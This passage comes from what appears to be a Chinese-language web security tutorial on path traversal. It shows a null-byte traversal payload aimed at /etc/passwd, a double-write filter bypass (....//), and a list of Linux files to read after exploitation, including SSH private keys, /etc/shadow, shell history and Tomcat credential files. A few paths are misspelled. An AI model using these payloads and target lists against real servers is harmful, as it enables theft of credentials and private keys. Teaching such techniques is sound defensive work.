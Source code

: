 ?name=.%00./.%00./.%00./.%00./etc/passwd  
#### 6、双写绕过  
  
有些代码会进行过滤，会把 ../ 置空，那么利用 ....// 代替 ../ ，利用 ..// 代替 /  
  
这种情况很少见，视情况而定  
## 漏洞利用  
#### Linux 系统下利用  

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/issue 系统版本
/etc/fstab
/etc/host.conf
/var/log/xferlog  FTP会话，记录拷贝了什么文件
/var/log/cron 计划任务日志
/etc/(cron.d/|crontab) //这两个也是定时任务文件
/var/log/secure 用户登录安全日志
/etc/rc.local 读apache的路径
/etc/motd
/etc/sysctl.conf
/var/log/syslog 记录登陆错误时的密码等信息
/etc/environment 环境变量配置文件 可能泄露大量目录信息
/etc/inputrc 输入设备配置文件
/etc/default/useradd 添加用户的默认信息的文件
/etc/login.defs 是用户密码信息的默认属性
/etc/skel 用户信息的骨架
/sbin/nologin 不能登陆的用户
/var/log/message 系统的日志文件
/etc/httpd/conf/httpd.conf 配置http服务的配置文件
/etc/mtab     包含当前安装的文件系统列表   有时可以读取到当前网站的路径
/etc/ld.so.conf
/etc/my.cnf
/etc/httpd/conf/httpd.conf
/root/.bash_history     终端命令操作记录
/root/.mysql_history
/proc/mounts
/porc/config.gz
/var/lib/mlocate/mlocate.db     Linux系统全文件路径数据库
/porc/self/cmdline
tomcat/conf/server.xml   tomcat连接数据库的密码配置文件
tomcat/webapps/ROOT/WEB-INF/classes/database.properties  同上
tomcat/conf/tomcat-users.xml  tomcat管理员账号密码的配置文件

```
